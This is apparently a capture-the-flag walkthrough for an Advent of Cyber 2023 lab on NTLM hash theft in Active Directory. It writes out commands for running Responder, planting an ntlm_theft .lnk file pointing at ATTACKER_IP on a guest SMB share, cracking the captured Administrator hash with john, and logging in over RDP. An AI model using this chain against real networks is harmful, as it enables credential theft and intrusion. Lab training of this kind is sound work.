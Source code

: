 # Relay All the Way | Advent of Cyber 2023 | Day 23

## TL;DR of Day 23
We will be learning about the hash exchange system for the Active Directory in windows and how we can exploit it using the men in the middle attack strategies.

## walkthrough

Start the machine and wait for 5 minutes to get it completely booted. I will suggest that you use the attack box for this challenge.

### Q1: What is the name of the AD authentication protocol that makes use of tickets?

AD's most famous authentication protocol is Kerberos.

### Q2: What is the name of the AD authentication protocol that makes use of the NTLM hash?

Should be simple google search.

### Q3: What is the name of the tool that can intercept these authentication challenges?

Responder can be used to intercept the authentication challenge.

### Q4: What is the password that McGreedy set for the Administrator account?
Let's start the responder server first. We can start the server with following commands:

```bash
responder -I ens5
```

Here ens5 is the network tunnel to listen on. If you are using your own machine with VPN then it will be your tun name like tun0.

Now we will use the netlm_theft tool to create the spoof file. 

For attckbox go to the `/root/Rooms/AoC2023/Day23/ntlm_theft/` directory and run the following command:

```bash
python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f stealthy
```

Now cd into the stealthy directory and connect to the ElfShare samba partion as a guest and put the stealthy.lnk file there.

```bash
smbclient //10.10.249.3/ElfShare/ -U guest%
smb: \>put stealthy.lnk
smb: \>get greedykeys.txt
```

We also have the directory for potential passwords in the greedykeys.txt file. Download that into the local system.

Now wait for some time to receive the connection on the responder server. It should print the NTLM hash for the Administrator user.

Paste that hash into one file and use the john-the-ripper to bruteforce the password.

```bash
john --wordlist=greedykeys.txt hash.txt
```

It will give you the Administrator password.

### Q5: What is the value of the flag that is placed on the Administrator’s desktop?

Use the Administrator:PASSWORD to login using RDP with a app like remmina and get the flag from the Desktop.